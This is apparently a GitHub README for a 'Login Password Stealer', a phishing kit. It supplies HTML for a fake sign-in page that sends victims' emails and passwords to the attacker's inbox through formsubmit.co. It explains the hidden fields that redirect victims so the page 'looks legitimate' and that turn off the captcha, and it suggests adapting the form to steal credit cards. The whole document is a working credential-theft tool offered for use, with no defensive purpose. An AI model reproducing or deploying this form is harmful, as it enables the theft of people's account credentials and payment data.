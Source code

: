 # Login Password Stealer

| Login Password Stealer | 
| ------------- | 

## Features:
1. `Sending Passwords to your email`
2. `Sending usernames to your email`
3. `Can customize to credit card stealer`


# Requirements

1. Code Editor: Visual Studio Code, Sublime, Replit (Any IDE text editor for html)
2. basic html and computer knowledge.

# Set-up: 

1. Copy the given html code.

   ######
  ```html
 <form action="https://formsubmit.co/YOUREMAIL@GMAIL.COM" method="POST">
        <h1>Title</h1>
        <h6>Please sign in with your whatever account</h6>
        <input type="text" name="email" placeholder="Email" required>
        <input type="hidden" name="_next" value="https://hackers-inc.github.oi/success.html">
        <input type="hidden" name="_captcha" value="false">
        <input type="password" name="password" placeholder="Password" required>
        <button type="submit">Sign in</button>
   ```
   ```html
     <input type="hidden" name="_next" value="https://hackers-inc.github.oi/success.html">
     <!--This is not required unless you want to look ligetiment and take you to another page.-->
  ```
  ```html
    <input type="hidden" name="_captcha" value="false">
    <!--This is not requried. It disables the capatcha for the formsubmit to make it not show the logo-->
  ```
   Example:
   <img src="https://cdn.discordapp.com/attachments/921216391074443314/992962207203729428/unknown.png">

# Set-up: Email
######
```html
 <form action="https://formsubmit.co/YOUREMAIL@GMAIL.COM" method="POST">
 ```
 Where it says YOURMAIL@GMAIL.COM is where you would put your email. Before you send the website out MAKE SURE to test it yourself because Formsubmit will ask you to "verify" your email.

<br>

Example of the email your looking for.
<img src="https://cdn.discordapp.com/attachments/921216391074443314/992963295294259330/unknown.png">
<br>
Thanks for checking us out!
